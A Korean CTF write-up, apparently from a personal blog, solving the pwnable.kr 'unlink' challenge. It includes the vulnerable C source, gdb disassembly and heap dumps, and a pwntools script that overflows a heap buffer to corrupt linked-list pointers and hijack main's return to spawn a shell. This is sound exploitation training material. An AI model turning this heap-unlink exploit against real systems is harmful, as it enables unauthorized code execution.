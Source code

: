 ```yaml
---
sort: 19
---
```


# unlink

home 디렉토리에 unlink.c파일에 소스코드가 들어있다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

OBJ A, B, C의 크기가 같은데 연속적으로 malloc을 했기 때문에 heap상에서 가까이 있을 것 같다.<br>
또한 A->buf를 gets가지고 받고있기 때문에 buffer overflow를 통해서 object의 fd, bk 포인터를 조져서 unlink를 할 때 프로그램의 흐름을 변경시킬 수 있을 것 같다.<br><br>
c코드만 봐서는 이 문제 못푼다. main을 disassemble해야 문제를 풀 수 있다. c코드에는 나와있지 않은 코드부분이 존재하기 때문이다.

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0804852f <+0>:     lea    0x4(%esp),%ecx
   0x08048533 <+4>:     and    $0xfffffff0,%esp
   0x08048536 <+7>:     pushl  -0x4(%ecx)
   0x08048539 <+10>:    push   %ebp

   ... (중략) ...

   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
```

main함수의 첫부분과 끝부분에 희한한 가젯이 존재한다. 이를 이용해야 문제를 풀 수 있다.<br>
잘 보면 ebp - 4에 위치한 값을 ecx로 옮기고, ecx - 4에 위치한 값을 esp로 옮긴 뒤에 ret를 때리는 것을 확인할 수 있다. 따라서 ebp - 4에 저장되어있는 값을 조진다면 프로그램의 흐름을 변경시킬 수 있다.<br>
아래 그림과 같이 조져놓으면 main함수가 종료되고 ret될 때 shell함수를 실행시킬 수 있다.

<img src="/picture/pwnable.kr/unlink.png" width="1000"/>

```gdb
(gdb) b* 0x080485e4
Breakpoint 1 at 0x80485e4
(gdb) r
Starting program: /home/unlink/unlink
here is stack address leak: 0xffad9c64
here is heap address leak: 0x8464410
now that you have leaks, get shell!

Breakpoint 1, 0x080485e4 in main ()
(gdb) x/20wx 0x8464410
0x8464410:      0x08464428      0x00000000      0x00000000      0x00000000
0x8464420:      0x00000000      0x00000019      0x08464440      0x08464410
0x8464430:      0x00000000      0x00000000      0x00000000      0x00000019
0x8464440:      0x00000000      0x08464428      0x00000000      0x00000000
0x8464450:      0x00000000      0x00000409      0x20776f6e      0x74616874

(gdb) i r ebp
ebp            0xffad9c78       0xffad9c78
```

위와 같이 A, B, C 주소값이 0x18씩 나는 것과, stack 내의 지역변수 A와 ebp사이의 간격이 0x14인 것을 알아내었다.<br>
따라서 payload를 아래와 같이 짜면 된다.

```python
from pwn import *

p = process("/home/unlink/unlink")
print(p.recvuntil(": "))
stack_addr = int(p.recvuntil("\n")[:-1], 16)

print(p.recvuntil(": "))
heap_addr = int(p.recvuntil("\n")[:-1], 16)

print(p.recvline())

#              shell()      padding   B->fd = A->buf[4]의 주소  B->bk = main의 ebp - 4
p.sendline(p32(0x080484eb) + "A"*12 + p32(heap_addr + 12) + p32(stack_addr + 16))
p.interactive()
```

```bash
unlink@pwnable:/tmp/dlfjs123$ python script.py
[+] Starting local process '/home/unlink/unlink': pid 406493
here is stack address leak:
here is heap address leak:
now that you have leaks, get shell!

[*] Switching to interactive mode
$ cat ~/flag
```

```tip
## 알게 된 점

c코드만 보지 말고 어셈도 보자.
```
